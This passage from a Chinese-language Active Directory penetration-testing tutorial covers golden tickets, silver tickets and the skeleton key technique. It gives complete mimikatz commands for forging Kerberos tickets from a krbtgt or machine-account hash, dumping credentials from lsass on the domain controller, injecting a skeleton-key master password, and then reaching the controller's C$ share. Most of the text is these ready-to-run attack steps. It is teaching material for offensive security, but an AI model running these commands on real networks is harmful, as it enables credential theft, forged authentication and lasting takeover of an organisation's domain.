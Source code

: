 利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid 值，如下：

```
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi


```

```
#导入刚才生成的票据
kerberos::ptt test.kiribi

#导入成功后可获取域管权限
dir \\\\dc.abc.com\\c$


```

#### 5.2 白银票据

黄金票据和白银票据的一些区别：Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS ，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

```
#在域控上导出 DC$ 的 HASH
mimikatz log "privilege::debug" "sekurlsa::logonpasswords"

#利用 DC$ 的 Hash制作一张 cifs 服务的白银票据
kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

#cifs是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统
dir \\\\DC.ABC.COM\\C$


```

#### 5.3 skeleton key

skeleton key(万能钥匙) 就是给所有域内用户添加一个相同的密码，域内所有的用户 都可以使用这个密码进行认证，同时原始密码也可以使用，其原理是对 lsass.exe 进行注 入，所以重启后会失效。

```
#在域控上安装 skeleton key
mimikatz.exe privilege::debug "misc::skeleton"

#在域内其他机器尝试使用 skeleton key 去访问域控，添加的密码是 mimikatz
net use \\\\WIN-9P499QKTLDO.adtest.com\\c$ mimikatz /user:adtest\\administrator


```

微软在 2014 年 3 月 12 日添加了 LSA 爆护策略，用来防止对进程 lsass.exe 的代码注入。如果直接尝试添加 skelenton key 会失败。

![](http://www.0-sec.org/%E5%9F%9F%E6%B8%97%E9%80%8F/img/70.png)
